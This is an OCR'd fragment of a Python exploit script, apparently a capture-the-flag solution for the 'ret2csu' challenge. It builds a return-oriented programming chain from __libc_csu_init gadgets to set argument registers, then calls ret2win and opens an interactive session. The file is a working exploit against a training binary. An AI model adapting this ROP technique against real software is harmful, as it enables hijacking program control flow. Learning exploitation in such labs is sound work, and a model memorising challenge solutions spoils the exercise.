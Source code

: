```python
    info("rip offset is %d" % rip_offset)


#find_rip_offset()
RIP_OFFSET = 40

# %rdi: 0xdeadbeefdeadbeef
# %rsi: 0xcafebabecafebabe
# %rdx: 0xd00df00dd00df00d

payload  = b'A'*RIP_OFFSET

# ** gadget 1:
payload += p64(0x0040069a) # rbx, rbp, r12, r13, r14, r15
payload += p64(0x00) # rbx
payload += p64(0x01) # rbp
payload += p64(0x600398) # r12: _init function
payload += p64(0xFF) # r13
payload += p64(0xcafebabecafebabe) # r14 -> rsi
payload += p64(0xd00df00dd00df00d) # r15 -> rdx
# ** gadget 2:
payload += p64(0x00400680) # mov rdx, r15; mov rsi, r14, mov edi, r13d; call qword [r12 + rbx*8]
# call happens here
payload += p64(0xFF) # add rsp,0x8 (removes this value from the stack)
# ** falls back into gadget 1:
payload += p64(0xFF) # rbx
payload += p64(0xFF) # rbp
payload += p64(0xFF) # r12
payload += p64(0xFF) # r13
payload += p64(0xFF) # r14
payload += p64(0xFF) # r15
# ** fix up %rdi
payload += p64(rop.rdi.address) # pop rdi; ret
payload += p64(0xdeadbeefdeadbeef) # rdi
# ** call target function
payload += p64(elf.plt['ret2win'])

p.sendline(payload)
p.interactive()
```
